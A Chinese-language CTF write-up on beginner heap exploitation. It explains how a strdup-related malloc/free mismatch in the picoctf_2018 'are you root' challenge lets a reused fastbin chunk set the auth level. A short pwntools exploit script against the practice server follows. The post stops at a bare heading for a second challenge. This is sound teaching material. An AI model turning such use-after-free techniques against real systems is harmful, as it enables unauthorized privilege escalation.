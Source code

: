 # pwn初学者的进阶（三）：堆学习


## 0x00 前言
零零散散地看了两三天时间才把堆的一些基础内容与一道题看懂😑

## 0x01 picoctf_2018_are you root
[题目链接](https://buuoj.cn/challenges#picoctf_2018_are%20you%20root)

感天动地，我居然自己做出了一道堆题，虽然这题非常简单。

每次`login`的时候，chunk布局如下所示（假设输入用户名长度<=0x18）：
```
------------------
|       |  0x21 |  allocated
-----------------
|str_ptr| level |
------------------
|       |  0x21 |  allocated
-----------------
| str content.. |
------------------
    top chunk
```

这题的漏洞点在于，`malloc`与`free`的次数不匹配。程序中写入用户名时使用了`strdup`，**这个函数是隐含着`malloc`的调用的，而`reset`时又只进行了一次`free`调用。所以，正常的一次`login`与`reset`操作之后，chunk与fastbin的情况为：
```
------------------
|       |  0x21 |  allocated
-----------------
|str_ptr| level |
------------------
|       |  0x21 |  free
-----------------
| str content.. |
------------------
    top chunk

===================
fastbin: -> -----------------
            |       |  0x21 | 
            -----------------
            | str content.. |
            ------------------
```
所以这时再进行`login`，得到的就是写入了用户名内容的chunk，这是我们可控的。而代表auth-level的值就位于`ptr+0x8`，我们只要在第一次`login`的时候，把该处内容写为`\x05\x00\x00\x00\x00\x00\x00\x00`，然后`reset`，再`login`即可。

exp
```python
from pwn import *
context(os = 'linux', arch = 'amd64')
# context.log_level = 'debug'

p = remote('node4.buuoj.cn', 29378)

def get_flag():
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'get-flag')

def login(content: bytes):
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'login ' + content)

def reset():
    p.recvuntil(b'Enter your command:\n> ')
    p.sendline(b'reset')

payload = b'a'*0x8 + b'\x05'.ljust(8, b'\x00')

login(payload)
reset()
login(b'test')
get_flag()
p.interactive()
```

![image-20210906144421764](image-20210906144421764.png "flag截图")

ps: `#define DWORD __uint32_t`，所以`DWORD`在x86/x64都是**4字节**大小，而不是字面意思的2倍字长。

## 0x02 hitcon2014_stkof

[题目链接](https://buuoj.cn/challenges#hitcon2014_stkof)




